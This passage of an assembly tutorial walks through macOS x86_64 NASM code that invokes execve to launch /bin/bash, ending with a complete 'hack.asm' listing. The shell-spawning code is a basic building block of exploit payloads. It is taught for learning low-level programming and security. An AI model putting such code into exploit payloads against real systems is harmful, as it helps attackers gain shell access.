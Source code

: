 At the next step, we need to setting up arguments for `execve`:     

```nasm
lea     rdi, [rel path]      ; rdi = filename (char *filename)
xor     rsi, rsi             ; rsi = argv (NULL)
xor     rdx, rdx             ; rdx = envp (NULL)
```

`lea rdi, [rel path]` - the `rdi` register holds the filename of the program to `execute`. Here, we load the address of the string path (which contains `/bin/bash`) into `rdi`.     

`xor rsi, rsi` - the `rsi` register is for the arguments to the program (`argv`). We set it to `NULL` here to indicate no arguments.      

`xor rdx, rdx` - the `rdx` register is for the environment variables (`envp`). We also set it to `NULL` here, meaning no environment variables are passed.      

Then, making the `execve` syscall:     

```nasm
syscall                      ; execve("/bin/bash", NULL, NULL)
```

and fallback exit:       

```nasm
mov     rax, 0x2000001       ; sys_exit
xor     rdi, rdi
syscall
```

What's going on here? If for some reason the `execve` syscall fails, the program will call `exit(0)` to exit gracefully. `0x2000001` is the syscall number for `exit`, and `rdi` is set to `0`, which is the exit status.     

And of course, we need a data section like this:     

```nasm
section .data
path:   db "/bin/bash", 0        ; OR: db "/bin/zsh", 0
```

As you can see, `path` is the path to the shell that will be executed (`/bin/bash`). It is null-terminated (i.e., ends with `0`).     

So, full source code for the second example is looks like this `hack.asm`:     

```nasm
global start

section .text
start:
    ; sys_execve = 0x200003b
    xor     rax, rax
    mov     rax, 0x200003b       ; execve syscall on macOS x86_64

    lea     rdi, [rel path]      ; rdi = filename (char *filename)
    xor     rsi, rsi             ; rsi = argv (NULL)
    xor     rdx, rdx             ; rdx = envp (NULL)

    syscall                      ; execve("/bin/bash", NULL, NULL)

    ; fallback: exit(0)
    mov     rax, 0x2000001       ; sys_exit
    xor     rdi, rdi
    syscall

section .data
path:   db "/bin/bash", 0        ; OR: db "/bin/zsh", 0
```
